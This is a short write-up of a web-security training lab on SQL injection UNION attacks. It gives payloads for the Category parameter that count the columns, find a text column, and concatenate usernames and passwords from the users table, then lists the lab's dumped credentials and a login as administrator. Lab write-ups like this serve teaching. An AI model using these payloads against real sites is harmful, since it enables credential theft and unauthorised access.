







# Lab: SQL injection UNION attack, retrieving multiple values in a single column

In this article, only one of the columns is processed as a printout on the page. The printout will determine which column is printed on the screen, and then print the user name and password in the corresponding column.

We remember from previous laboratories that there was SQL injection in Category parameter.

we identified 2 columns as follows.

PAYLOAD: `‘+UNION+SELECT+NULL,NULL—`

let's get a cyber statement printed on column 2.

PAYLOAD: `‘+UNION+SELECT+NULL,’siber’ —`

2.we can use the following payload because we want the display to be the username and password for the statement to be written in the column:

PAYLOAD: `‘+UNION+SELECT+NULL,username||’~’||password+FROM+users —`

Creds:

`wiener~qi6rwofv0ux0yjcecm2y`

`carlos~lmnncl5uq0hqqdqb92do`

`administrator~j221x00uaz0e8rdflvmh`

We're logging into the system with the credentials of the Administrator user.

After logging into the system, we successfully complete the lab!

